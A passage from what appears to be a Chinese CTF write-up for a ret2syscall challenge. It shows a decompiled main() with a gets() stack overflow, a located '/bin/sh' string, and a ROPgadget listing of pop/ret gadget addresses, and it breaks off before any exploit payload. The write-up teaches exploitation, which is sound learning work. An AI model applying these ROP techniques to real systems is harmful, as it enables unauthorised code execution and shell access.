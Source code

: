 - 没有后门函数，寻找`/bin/sh`

> <img src="./img/61.png">

- 找到了一条`/bin/sh`，证实是`ret2syscall`题型，然后回到`main()`

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [esp+1Ch] [ebp-64h] BYREF

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("This time, no system() and NO SHELLCODE!!!");
  puts("What do you plan to do?");
  gets(&v4);
  return 0;
}
```

3. 很明显，`gets()`函数存在栈溢出，然后使用`ROPgadget`来寻找需要的`gadget`

```sh
ROPgadget --binary rop --only "pop|ret"
```

```sh
0x0809dde2 : pop ds ; pop ebx ; pop esi ; pop edi ; ret
0x0809d7b2 : pop ds ; ret
0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x080bb196 : pop eax ; ret
0x0807217a : pop eax ; ret 0x80e
0x0804f704 : pop eax ; ret 3
0x0805b6ed : pop ebp ; pop ebx ; pop esi ; pop edi ; ret
0x0809e1d5 : pop ebp ; pop esi ; pop edi ; ret
0x0804838e : pop ebp ; ret
0x080a9a45 : pop ebp ; ret 0x10
0x08096a29 : pop ebp ; ret 0x14
0x08070d76 : pop ebp ; ret 0xc
0x0804854a : pop ebp ; ret 4
0x08049c00 : pop ebp ; ret 8
0x0809e1d4 : pop ebx ; pop ebp ; pop esi ; pop edi ; ret
0x080be23f : pop ebx ; pop edi ; ret
0x0806eb69 : pop ebx ; pop edx ; ret
0x08092258 : pop ebx ; pop esi ; pop ebp ; ret
0x0804838b : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080a9a42 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0x10
0x08096a26 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0x14
0x08070d73 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0xc
0x08048547 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 4
0x08049bfd : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 8
0x08048913 : pop ebx ; pop esi ; pop edi ; ret
0x08049a19 : pop ebx ; pop esi ; pop edi ; ret 4
0x08049a94 : pop ebx ; pop esi ; ret
0x080481c9 : pop ebx ; ret
0x080d7d3c : pop ebx ; ret 0x6f9
0x08099c87 : pop ebx ; ret 8
0x0806eb91 : pop ecx ; pop ebx ; ret
0x0804838d : pop edi ; pop ebp ; ret
0x080a9a44 : pop edi ; pop ebp ; ret 0x10
0x08096a28 : pop edi ; pop ebp ; ret 0x14
0x08070d75 : pop edi ; pop ebp ; ret 0xc
0x08048549 : pop edi ; pop ebp ; ret 4
```